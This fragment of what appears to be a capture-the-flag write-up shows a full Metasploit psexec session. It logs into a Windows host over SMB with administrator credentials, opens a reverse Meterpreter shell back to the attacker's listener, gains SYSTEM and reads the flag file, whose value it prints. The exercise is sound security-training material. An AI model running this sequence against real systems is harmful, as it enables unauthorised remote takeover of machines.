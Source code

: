 ```

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/smb/psexec) > set RHOSTS 10.0.26.67
RHOSTS => 10.0.26.67
msf5 exploit(windows/smb/psexec) > set SMBUser administrator
SMBUser => administrator
msf5 exploit(windows/smb/psexec) > set SMBPass qwertyuiop
SMBPass => qwertyuiop
msf5 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] 10.0.26.67:445 - Connecting to the server...
[*] 10.0.26.67:445 - Authenticating to 10.0.26.67:445 as user 'administrator'...
[*] 10.0.26.67:445 - Selecting PowerShell target
[*] 10.0.26.67:445 - Executing the payload...
[+] 10.0.26.67:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 10.0.26.67
[*] Meterpreter session 1 opened (10.10.16.2:4444 -> 10.0.26.67:49811) at 2022-09-13 07:45:23 +0530

meterpreter > sysinfo
Computer        : EC2AMAZ-408S766
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > search -f flag*
Found 2 results...
    c:\flag.txt (32 bytes)
    c:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\flag.lnk (510 bytes)
meterpreter > cat c:\\flag.txt
e0da81a9cd42b261bc9b90d15f780433
```

## 解决方案
